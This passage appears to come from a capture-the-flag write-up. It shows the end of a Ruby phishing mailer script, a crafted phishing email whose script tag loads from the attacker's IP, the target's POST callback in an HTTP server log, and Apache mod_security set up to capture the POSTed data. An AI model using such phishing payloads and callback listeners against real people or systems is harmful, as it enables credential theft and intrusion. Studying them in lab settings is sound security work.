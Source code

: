 ```
		elsif line =~ /\#{date}/
			message << line.gsub(/\#{date}/, "#{date}")
		else
			message << line
		end
	end
	email_message.close

	text = message.join

	# send emails
	sendemail(username, password, from, text, email, port, smtpout, smtp)
end

# close files
emails.close
```

Now, we'll create a simple payload to test if there's anything being executed on the server side:

message.txt:
```
From: #{display_from} <#{from}>
To: #{to}
MIME-Version: 1.0
Content-Type: text/html
Subject: #{subject}

<script src=http://10.10.14.36/scripttest.php></script>
<br>
From,
<br>
The Phisher
```

Running sendmail.rb pings back to our server, but it doesn't look like the javascript is being executed. In fact, it appears that there's a script sending POST data to whatever URL we provide to it:

```
$ ruby sendmail.rb emails.txt message.txt
...
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.197 - - [14/Jul/2020 09:13:09] code 501, message Unsupported method ('POST')
10.10.10.197 - - [14/Jul/2020 09:13:09] "POST /scripttest.php%3E%3C/script%3E HTTP/1.1" 501 
```

In order to capture the POST data being sent, we'll take a tip from stack overflow and create apache2 security logs that log any POST data coming to the server:

https://stackoverflow.com/questions/989967/best-way-to-log-post-data-in-apache

```
$ sudo apt install libapache2-mod-security2
$ sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
$ sudo service apache2 reload
```
